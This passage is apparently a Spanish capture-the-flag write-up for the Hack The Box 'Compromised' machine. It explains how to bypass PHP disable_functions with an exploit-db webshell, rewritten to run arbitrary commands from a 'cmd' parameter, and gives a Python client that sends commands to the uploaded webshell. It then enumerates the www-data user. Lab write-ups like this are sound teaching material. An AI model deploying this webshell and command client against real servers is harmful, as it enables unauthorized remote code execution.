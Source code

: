 En este caso tenemos muchas funciones desanlilitadas, entre ellas system,passthru,popen,shell_exec,proc_open,exec...
Esta funciones son las que se utilizan genralmente para obtener una shell. Realizando investigaciones sobre posibles formas de bypassear esas Disabled_Functions encontre en exploitdb una webshell que nos permite bypassear dichas restricciones (https://www.exploit-db.com/exploits/47462).
Esta webshell hay que modificarla, ya que esta hecha de tal forma que solo ejecuta un comando. Si **pwn("uname -a");** lo cambiamos por **pwn($_REQUEST['cmd']);;** podemos pedirle el comando que queramos a traves del parametro `cmd`.

Adicionalmente a esto y para hacer la explotación de la maquina más fácil, he desarrollado una pequeña herramienta para hacer los requests de una manera mas rápida y dinámica.
En este caso mi webshell se llama exploit.php y el parametro para los comandos es *cmd*.

```python
import os
import requests
import readline

readline.parse_and_bind('tab: complete')
readline.parse_and_bind('set editing-mode vi')

cmd=''
head=''

while cmd != 'exit':
    r = requests.get('http://10.10.10.207/shop/vqmod/xml/exploit.php', params={"cmd": "echo $(whoami)@$(hostname): "})
    cmd = input(r.text.rstrip())
    print("\n")
    c = requests.get('http://10.10.10.207/shop/vqmod/xml/exploit.php', params={"cmd": cmd})
    print(c.text)

```

---
## Usuario www-data

Una vez tenemos subida nuestra webshell podemos proceder a la enumeración. Lo primero que vamos a comprobar es el usuario que somos en el sistema.

![Compromised-id-www-data](/assets/imagenes/2021-01-23-compromised-HTB/Compromised-id-www-data.png)

Normalmente el usuario www-data suele ser un usuario sin privilegios, ya que es el encargado de gestionar el servidor web que corresponda. En este caso y como era de esperar es un usuario sin privilegios.

Como habíamos visto antes en el backup había un fichero llamado config.inc.php dentro del directorio includes que contenia una contraseña de root para la base de datos. 
